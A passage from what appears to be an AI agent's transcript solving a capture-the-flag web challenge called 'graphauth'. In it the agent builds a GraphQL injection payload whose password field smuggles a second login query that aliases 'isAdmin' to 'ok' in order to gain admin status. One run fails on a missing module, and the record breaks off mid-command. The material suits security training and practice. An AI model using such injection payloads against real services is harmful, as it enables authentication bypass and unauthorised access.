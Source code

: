 - Exit code: 0
- Duration: 0.7 s


**Assistant Thinking**

> I’m thinking about printing the actual query to check what's going on. I need to modify the function to log the actual building string for the first candidate, just to make sure everything looks correct. Verifying the output seems essential here. I want to ensure I'm capturing the right data so I can confirm the functioning properly. It’s all about getting the details right and clarifying any issues!

##### shell

**Command**

```bash
python3 - << 'PY'
from graphauth.graphauth.app.app import log
import random, string
user = 'u_'+''.join(random.choice(string.ascii_lowercase) for _ in range(6))
pw = 'p_'+''.join(random.choice(string.ascii_lowercase) for _ in range(6))
c = pw + '" ) { login(username: "'+user+'", password: "'+pw+'") { ok isAdmin: ok username } }'
q = f'''
    query ($username: String = "{user}", $password: String = "{c}") {{
      login(username: $username, password: $password) {{
        ok
        isAdmin
        username
      }}
    }}
    '''
print(q)
PY
```

**Output**

```bash
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/root/geekgame2025/web-graphauth/graphauth/graphauth/app/app.py", line 1, in <module>
    from flask import Flask, request, redirect, url_for, render_template, session, flash
ModuleNotFoundError: No module named 'flask'
```

- Exit code: 1
- Duration: 0.6 s


##### shell

**Command**

```bash
python3 - << 'PY'
import random, string
user = 'u_'+''.join(random.choice(string.ascii_lowercase) for _ in range(6))
pw = 'p_'+''.join(random.choice(string.ascii_lowercase) for _ in range(6))
c = pw + '" ) { login(username: "'+user+'", password: "'+pw+'") { ok isAdmin: ok username } }'
q = f'''
    query ($username: String = "{user}", $password: String = "{c}") {{
      login(username: $username, password: $password) {{
        ok
        isAdmin
        username
      }}
    }}
    '''
print(q)
```